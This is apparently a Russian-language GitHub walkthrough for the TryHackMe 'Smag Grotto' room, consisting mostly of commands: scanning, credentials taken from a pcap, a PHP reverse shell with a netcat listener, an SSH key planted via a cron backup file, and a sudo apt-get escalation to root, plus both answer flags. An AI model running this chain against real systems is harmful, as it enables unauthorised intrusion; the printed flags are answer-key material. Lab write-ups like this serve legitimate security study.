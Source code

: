 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Smag Grotto](https://tryhackme.com/r/room/smaggrotto) 

Всего 1 заданиe:
## Задание 1
Разверните машину и получите права root.

### Ответьте на вопросы ниже
Что такое флаг пользователя?
```commandline
nmap <IP>
gobuster dir -u http://<IP>/ --wordlist=/usr/share/wordlists/dirb/big.txt
# http://<IP>/mail
# http://<IP>/aW1wb3J0YW50/dHJhY2Uy.pcap
username:helpdesk 
password:cH4nG3M3_n0w
# http://<IP>/admin.php

php -r '$sock=fsockopen("<IP>",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
rlwrap nc -nlvp 4444
SHELL=/bin/bash script -q /dev/null
cd /home/jake
ls -la
cat user.txt
cat /etc/crontab
ls -l /opt/.backups/jake_id_rsa.pub.backup
ssh-keygen -t rsa
echo "ssh-rsa ....= kali@kali" > /opt/.backups/jake_id_rsa.pub.backup
ssh jake@<IP>
cat user.txt
```
```commandline
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```
Что такое корневой флаг?
```commandline
sudo -l
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
whoami
cat /root/root.txt
```
```commandline
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)